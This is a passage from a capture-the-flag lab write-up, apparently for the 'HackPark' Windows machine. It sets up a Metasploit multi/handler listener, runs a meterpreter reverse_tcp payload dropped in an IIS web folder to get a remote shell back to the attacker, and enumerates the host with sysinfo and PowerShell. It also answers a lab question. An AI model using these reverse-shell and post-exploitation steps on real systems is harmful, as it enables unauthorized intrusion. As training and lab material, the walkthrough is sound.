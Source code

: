 I downloaded the payload in `C:\inetpub\wwwroot\App_Data\files\` because I know I have write permissions in this directory. Now let's set up a listener using msfconsole on our local machine :  
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4243
LPORT => 4243
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.31.20:4243
```

Now, let's execute the meterpreter.exe file via our unstable reverse shell :  
```
meterpreter.exe
c:\inetpub\wwwroot\App_Data\files>meterpreter.exe
```

If we go back to our metasploit listener :  
```
[*] Sending stage (175686 bytes) to 10.10.27.14
[*] Meterpreter session 1 opened (10.14.31.20:4243 -> 10.10.27.14:49226) at 2022-10-15 19:58:25 +0200

meterpreter >
```

We have a stable meterpreter shell. Now we can enumerate the machine :  
```
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

**Question : What is the OS version of this windows machine ?**  
**Answer : Windows 2012 R2 (6.3 Build 9600)**  

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > Get-Service

Status   Name               DisplayName
-Stopped  AeLookupSvc        Application Experience
...
...
Stopped  vmicrdv            Hyper-V Remote Desktop Virtualizati...
Stopped  vmicshutdown       Hyper-V Guest Shutdown Service
Stopped  vmictimesync       Hyper-V Time Synchronization Service
Stopped  vmicvss            Hyper-V Volume Shadow Copy Requestor
Stopped  VSS                Volume Shadow Copy
Running  W32Time            Windows Time
Stopped  w3logsvc           W3C Logging Service
Running  W3SVC              World Wide Web Publishing Service
Running  WAS                Windows Process Activation Service
Running  Wcmsvc             Windows Connection Manager
Stopped  WcsPlugInService   Windows Color System
Stopped  WdiServiceHost     Diagnostic Service Host
```